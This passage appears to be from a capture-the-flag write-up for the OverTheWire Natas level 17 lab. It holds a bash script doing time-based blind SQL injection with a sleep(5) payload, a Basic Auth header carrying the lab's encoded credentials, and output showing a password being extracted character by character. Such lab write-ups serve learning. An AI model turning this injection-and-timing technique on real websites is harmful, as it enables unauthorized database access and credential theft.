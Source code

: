 ```
    TESTSTRING=$(printf "%s" "${PASSWORD[@]}")
    INJECTION_END="$( rawurlencode '%" AND sleep(5) # ' )"

    # the last echo'ed $TESTSTRING would represent the working usr/passwd combo
    echo "PASSWORD: $TESTSTRING"

    # use time as a side channel attack
    TIMEOUTPUT=$( (time -p curl --silent \
      "http://natas17.natas.labs.overthewire.org/?username=${INJECTION_BEG}${TESTSTRING}${INJECTION_END}&debug" \
      -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' \
      >/dev/null) 2>&1) # the "2>&1" is necessary cuz time() outputs to STDERR

    # TIMEOUTPUT should be something like:
    #   real 0.00
    #   user 0.00
    #   sys 0.00
    # 1. grab just the real time (ignore system and user time)
    # 2. drop the "real" string
    TIME="$(echo $TIMEOUTPUT | \
      grep real | \
      cut -f 2 -d ' ')"

   # use "binary calcuator" since bash doesn't do floating point natively
   ISGREATERTHANFIVESECONDS=$( echo $TIME '>' 5 | bc -l )
   if [ $ISGREATERTHANFIVESECONDS -eq 1 ]; then
      # if the string "This user exists." it means our user+pw combo worked
      # and we can move onto the next character
      break;
   fi
  done

done
```

```
$ ./script.sh
PASSWORD: 0
PASSWORD: 1
PASSWORD: 2
PASSWORD: 3
PASSWORD: 4
PASSWORD: 5
PASSWORD: 6

<...>

PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFq
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFr
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFs
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFs0
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFs1
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFs2

<...>

PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdI
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdJ
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdK
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdL
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdM
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdN
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdO
PASSWORD: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```